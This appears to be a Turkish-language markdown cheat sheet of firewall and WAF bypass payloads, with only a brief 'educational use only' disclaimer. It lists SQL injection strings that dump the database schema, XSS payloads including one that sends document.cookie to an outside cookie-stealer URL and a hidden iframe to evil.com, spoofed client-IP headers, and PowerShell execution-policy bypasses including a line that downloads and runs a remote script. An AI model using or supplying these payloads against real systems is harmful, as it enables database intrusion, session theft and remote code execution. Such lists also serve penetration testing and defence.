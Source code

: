 # Güvenlik Duvarı Atlatma Teknikleri

Aşağıda, farklı türlerdeki güvenlik duvarlarını aşma tekniklerinin örnekleri verilmiştir. Bu bilgiler yalnızca eğitim amaçlıdır ve yalnızca etik siber güvenlik uygulamalarında kullanılmalıdır.

## 1. SQL Enjeksiyonu Evasion Teknikleri

| Payload |
|---------|
| - ' OR 'a'='a |
| - ')) OR 'x'='x |
| - ' OR 1=1# |
| - ' OR 'x'='x |
| - -1 UNION SELECT 1,@@version -- + |
| - -1 UNION ALL SELECT 1,2,3,table_name FROM information_schema.tables WHERE 2>1 -- + |
| - ' OR uname LIKE '%root% |
| - ' OR 'unusual' = 'unusual' |

## 2. HTTP Parametre Kirliliği (HPP) WAF Atlatma

| Payload |
|---------|
| - url&s1="><script>document.location='http://yourdomain.com/cookie_stealer.php?c='+document.cookie</script> |
| - url&s1="><iframe src="http://evil.com" width="0" height="0" /> |
| - url&s1="><img src=x onerror=alert(1)> |
| - url&s1="><svg/onload=alert(1)> |

## 3. IP Atlatma

| Payload |
|---------|
| - X-Real-IP: istenen ip adresi |
| - X-Client-IP: istenen ip adresi |
| - Client-IP: istenen ip adresi |
| - X-Cluster-Client-IP: istenen ip adresi |

## 4. Windows PowerShell Atlatma

| Payload |
|---------|
| - powershell.exe -ExecutionPolicy Bypass -File script.ps1 |
| - powershell -ep bypass -Command "& {Get-ExecutionPolicy}" |
| - powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('http://url/script.ps1')" |
| - powershell.exe -WindowStyle hidden {your script here} |
